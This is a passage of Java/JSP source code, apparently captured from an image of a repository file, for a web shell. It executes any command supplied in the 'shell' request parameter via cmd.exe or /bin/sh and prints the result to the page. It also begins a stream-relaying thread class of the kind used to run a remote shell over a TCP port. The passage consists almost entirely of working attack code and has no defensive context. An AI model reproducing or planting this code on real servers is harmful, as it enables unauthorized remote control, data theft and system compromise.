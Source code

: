 ```
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
            shellPath = new String("/bin/sh");
        } else {
            shellPath = new String("cmd.exe");
        }
    } catch( Exception e ){}


    // INNER HTML PART
    if (request.getParameter("shell") != null) {
        out.println("Command: " + request.getParameter("shell") + "\n<BR>");
        Process p;

        if (shellPath.equals("cmd.exe"))
            p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
        else
            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));

        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
        }
    }

    // TCP PORT PART
    class StreamConnector extends Thread
    {
        InputStream wz;
        OutputStream yr;

        StreamConnector( InputStream wz, OutputStream yr ) {
            this.wz = wz;
            this.yr = yr;
        }

        public void run()
        {
            BufferedReader r  = null;
            BufferedWriter w = null;
            try
            {
                r  = new BufferedReader(new InputStreamReader(wz));
                w = new BufferedWriter(new OutputStreamWriter(yr));
                char buffer[] = new char[8192];
                int length;
                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                {
                    w.write( buffer, 0, length );
                    w.flush();
                }
            } catch( Exception e ){}
            try
            {
                if( r != null )
                    r.close();
                if( w != null )
                    w.close();
            } catch( Exception e ){}
        }
```
